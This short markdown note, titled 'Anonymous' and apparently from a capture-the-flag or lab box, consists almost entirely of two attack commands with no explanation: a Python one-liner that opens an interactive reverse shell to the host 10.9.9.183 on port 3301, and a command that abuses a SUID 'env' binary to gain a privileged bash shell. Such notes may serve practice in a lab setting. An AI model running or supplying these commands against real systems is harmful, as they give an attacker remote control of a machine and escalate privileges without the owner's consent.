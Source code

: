 # Anonymous

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.183",3301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

suid bin

```bash
/usr/bin/env  /bin/bash -p
```
